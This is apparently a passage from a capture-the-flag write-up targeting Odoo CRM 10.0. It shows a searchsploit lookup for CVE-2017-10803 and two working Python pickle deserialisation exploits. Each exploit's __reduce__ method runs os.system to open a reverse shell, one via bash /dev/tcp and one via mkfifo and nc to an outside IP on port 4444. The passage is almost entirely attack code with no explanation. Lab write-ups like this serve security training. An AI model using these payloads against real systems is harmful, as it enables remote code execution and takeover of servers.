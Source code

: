 <br>
<br>

<br>
<h3>Exploit</h3>

```bash
:~/Obscure# searchsploit Odoo 10.0
------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                        |  Path
------------------------------------------------------------------------------------------------------ ---------------------------------
Odoo CRM 10.0 - Code Execution                                                                        | linux/local/44064.md
------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
:~/Obscure# searchsploit -m 44064.md
  Exploit: Odoo CRM 10.0 - Code Execution
      URL: https://www.exploit-db.com/exploits/44064
     Path: /opt/exploitdb/exploits/linux/local/44064.md
    Codes: CVE-2017-10803
```

<p>or</p>

```bash
https://www.exploit-db.com/exploits/44064
```

<br>
<br>

```bash
:~/Obscure# cat exploit.py
import cPickle
import os
import base64
import pickletools

class Exploit(object):
  def __reduce__(self):
    return (os.system, (("bash -i >& /dev/tcp/xx.xxx.xx.xxx/4444 0>&1"),))

with open("exploit.pickle", "wb") as f:
  cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```



```bash
import cPickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, (("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.201.11.142/4444 >/tmp/f"),))

with open("exploit.pickle", "wb") as f:
    cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```

